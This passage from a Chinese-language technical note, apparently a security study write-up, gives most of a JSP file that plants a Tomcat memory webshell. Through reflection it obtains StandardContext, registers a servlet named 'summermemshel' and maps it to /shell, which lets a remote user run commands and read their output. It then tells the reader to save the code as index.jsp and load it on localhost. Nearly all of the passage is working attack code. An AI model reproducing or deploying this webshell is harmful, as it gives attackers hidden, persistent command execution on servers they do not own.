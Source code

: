```java
            String output = s.hasNext() ? s.next() : "";
            PrintWriter out = servletResponse.getWriter();
            out.println(output);
            out.flush();
            out.close();
        }
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {

        }
    };

    // 获取StandardContext
    StandardContext standardCtx = null;
    ServletContext servletContext = request.getServletContext();
    Field appContextField = servletContext.getClass().getDeclaredField("context");
    appContextField.setAccessible(true);
    Object appContext = appContextField.get(servletContext);

    Field standardCtxField = appContext.getClass().getDeclaredField("context");
    standardCtxField.setAccessible(true);
    standardCtx = (StandardContext) standardCtxField.get(appContext);

    if (standardCtx != null) {
        // 用Wrapper对其进行封装
        org.apache.catalina.Wrapper newWrapper = standardCtx.createWrapper();
        newWrapper.setName("summermemshel");
        newWrapper.setLoadOnStartup(1);
        newWrapper.setServlet(servlet);
        newWrapper.setServletClass(servlet.getClass().getName());

        // 添加封装后的恶意Wrapper到StandardContext的children当中
        standardCtx.addChild(newWrapper);

        // 添加ServletMapping将访问的URL和Servlet进行绑定
        standardCtx.addServletMappingDecoded("/shell", "summermemshel");
    } else {
        out.println("Failed to get StandardContext");
    }
%>
```

新建一个 `index.jsp` 文件, 将上述代码贴在其中

访问 `http://localhost:8080/java-memshell-tomcat-servletapi/index.jsp`

![image-20240911143825536](http://cdn.ayusummer233.top/DailyNotes/202409111438611.png)

